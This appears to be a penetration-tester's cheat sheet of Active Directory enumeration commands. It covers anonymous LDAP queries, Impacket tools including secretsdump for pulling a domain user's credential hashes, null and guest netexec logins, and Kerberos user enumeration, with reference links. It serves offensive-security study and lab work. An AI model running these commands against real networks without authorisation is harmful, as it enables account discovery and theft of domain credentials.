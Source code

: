 # Note: Be cautious when brute forcing Active Directory, as it can trigger the Account Lockout Policy and disable user accounts.


## Anonymous Credential LDAP Dumping: 

- ldapsearch -LLL -x -H ldap://"domain fqdn" -b ‘’ -s base ‘(objectclass=*)’

Impacket GetADUsers.py (Must have valid credentials)

- GetADUsers.py -all domain\User -dc-ip 172.21.0.0

Impacket lookupsid.py:

- /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

- python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U

## Netexec:

- netexec ldap "ip-address" -u "" -p "" -d "domain"

- netexec ldap "ip address" -u "Guest" -p "" -d "domain"

## Enumerating for users through kerberos

- sudo nmap --script=krb5-enum-users --script-args="krb5-enum-users.realm='megacorpone.com',users.txt" 172.21.0.0

## References: 

- PayloadAllTheThings:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise

- Attacking Active Directory: 0 to 0.9:
https://zer1t0.gitlab.io/posts/attacking_ad/